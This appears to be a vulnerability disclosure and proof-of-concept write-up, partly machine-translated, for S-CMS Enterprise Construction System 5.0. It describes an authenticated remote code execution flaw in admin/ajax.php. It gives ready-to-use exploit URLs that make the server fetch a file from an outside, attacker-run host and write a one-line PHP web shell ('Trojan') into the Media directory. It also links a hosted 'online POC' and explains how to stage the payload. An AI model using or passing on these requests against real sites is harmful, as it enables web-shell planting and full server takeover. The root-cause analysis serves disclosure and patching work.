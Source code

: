 1.First download the latest version of S-CMS Enterprise Construction System Version 5.0

![image](https://user-images.githubusercontent.com/113097106/227728303-14d929d9-599b-45d2-89db-7c6f8bd6fda8.png)

2.Because the vulnerability is the background command execution requires logging in to the background administrator account. The loophole interface address is:
http://10.10.10.8/admin/ajax.php?Type=collection&ACTION=All&pageurl=http://10.10.8:88/1.tXt&ID=1 Directly request test

![image](https://user-images.githubusercontent.com/113097106/227728314-15496a42-5525-4bb2-953b-b823116b73e2.png)

3.After the request is successful, a randomly named PHP file will be generated in the Media directory. This file is our sentence Trojan. Let's visit and execute the command

![image](https://user-images.githubusercontent.com/113097106/227728325-04bc0963-a39e-4dc2-bf91-8f974beb79f7.png)

![image](https://user-images.githubusercontent.com/113097106/227728331-0f933496-826c-42de-81bc-f00c98e5aea4.png)

4.Let ’s analyze the cause of the vulnerability. The vulnerability position is under admin/ajax.php file, and re -request the vulnerability URL:http://10.10.10.8/admin/ajax.php?type=collection&action=all&pageurl=http://10.10.10.8:88/1.txt&id=1 使用PhpStorm 开启调试并在以下位置设置断点


![image](https://user-images.githubusercontent.com/113097106/227728339-11f6e7d1-a16a-47fa-82c2-6f1e7d0f0e8f.png)


5.First check the fields in the SL_COMENT table. If the data exists, continue to execute downward


![image](https://user-images.githubusercontent.com/113097106/227728348-1a45169b-0a24-4644-8f20-fba3438d8ccf.png)


6.Extract all the data in the SL_COMENT table, and then bring the lrl (http://10.10.8:88/1.txt) the URL (http://10.10.8:88/1.txt) we give


![image](https://user-images.githubusercontent.com/113097106/227728355-864aa6da-ead2-42a6-9a1c-5a8fedf8baec.png)

7.The result of extraction returned and assigned value, we see that the return value is analyzed by the http://10.10.10.8:88/2.php link in the return value


![image](https://user-images.githubusercontent.com/113097106/227728360-5547e684-2125-4c2d-8c83-3e01e4be8924.png)

8.Then download and read the content of the 2.php file, follow the downpic function


![image](https://user-images.githubusercontent.com/113097106/227728374-63aa9361-6b95-471c-86ee-75757760239a.png)

9.The PHP suffix of 2.php will be used as a preserved file suffix. The file name is used with the current time with random 3 -digit number to combine new file names. The 2.php file content is written into the Media directory through the file_put_contents method


![image](https://user-images.githubusercontent.com/113097106/227728388-a8c4ddf4-29db-40ba-ae8e-f8cec7f9e4da.png)

![image](https://user-images.githubusercontent.com/113097106/227728392-fa0feb8c-2ea4-466b-ac31-f38651f89153.png)

10.Through the above operations, the Trojan horse will be written into the system. We can execute the system arbitrarily by accessing the PHP file.


![image](https://user-images.githubusercontent.com/113097106/227728406-3ae2e49e-d1b4-4e54-92d8-a3dbbfa68afd.png)

11.The following two points need to be used to use this vulnerability:

  11.1.Create a text file that is a similar data format in the SL_Collection table. Because the system will request the data in the table and extract the URL link in SRC, which is 2.PHP
  
  
  ![image](https://user-images.githubusercontent.com/113097106/227728459-07dfc95a-92d0-4552-818f-79e7167c3522.png)

  11.2. 2.php In a phrase Trojan, note that the file cannot be run in the PHP environment, because the request needs a return value, all I use Python to start a HTTP service
  
  
  ![image](https://user-images.githubusercontent.com/113097106/227728467-f34ce272-5cce-46eb-82cd-fca1ea25d9ec.png
  
12.Online POC uses links : http://10.10.10.8/admin/ajax.php?type=collection&action=all&pageurl=https://raw.githubusercontent.com/superjock1988/debug/main/1.txt&id=1   Just need to modify the local server IP addre


![image](https://user-images.githubusercontent.com/113097106/227730565-45a67f23-4c26-4185-a5db-1e9c2c65ee86.png)
![image](https://user-images.githubusercontent.com/113097106/227730563-7e70b656-fbfd-4142-a037-e0cd68bba7c3.png)
![image](https://user-images.githubusercontent.com/113097106/227730564-4e3c9083-c1e8-4875-99f5-7e8adf69857e.png)
